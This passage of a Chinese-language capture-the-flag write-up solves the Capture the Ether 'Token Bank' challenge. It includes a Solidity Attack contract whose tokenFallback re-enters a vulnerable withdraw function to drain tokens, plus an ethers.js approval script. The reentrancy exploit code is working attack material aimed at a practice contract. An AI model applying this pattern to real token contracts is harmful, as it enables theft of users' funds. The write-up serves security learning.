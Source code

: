```solidity

        balanceOf[from] += value;
    }
    function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);

        require(token.transfer(msg.sender, amount));
        balanceOf[msg.sender] -= amount;
    }
}
contract Attack {
    address a = 0x681BE0B67e6917e84BbCFe925c551ca94d06bEb6;
    address b = 0x435c6119690afddb64b11f6d749b410257142e60;
    TokenBankChallenge target1;
    SimpleERC223Token target2;
    uint256 check;
    function Attack() payable{
        target1= TokenBankChallenge(a);
        target2= SimpleERC223Token(b);
    }

    function action1() public {
        target2.transferFrom(msg.sender ,address(this),500000000000000000000000);
    }
    function action2() public {

        target2.transfer(a,500000000000000000000000);
    }
    function tokenFallback() public {
        check=check+1;
        if(check <= 2){
        target1.withdraw(500000 * 10**18);    
        }
    }

    function () public payable {

    }
}
```

~~然后, 部署完成之后, 从Metamask里面 把我们钱包的 500,000 SET Token 转到部署好的Attack合约中~~

注意, 这里不能用Transfer转账, 因为 Transfer 的To是一个合约地址, 会激发我们Attack合约中的 `tokenFallback` 函数

所以需要我们将 SET 授权给 Attack, 授权代码

```javascript
async function main(){
  const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
  const wallet = new ethers.Wallet(process.env.PK, provider)
  let iface = new ethers.utils.Interface(["function approve(address spender, uint256 value)"])
  const tx = {
    to: "0x435c6119690afddb64b11f6d749b410257142e60",
    data: iface.encodeFunctionData("approve", ["0x1F0Fc75CaD196B0cA1dBe90E5f849153b98E99AF",ethers.utils.parseEther("500000")]),
  }
  const hash = await wallet.sendTransaction(tx)
  await hash.wait()
  console.log("Send Tx",hash.hash)
}
```
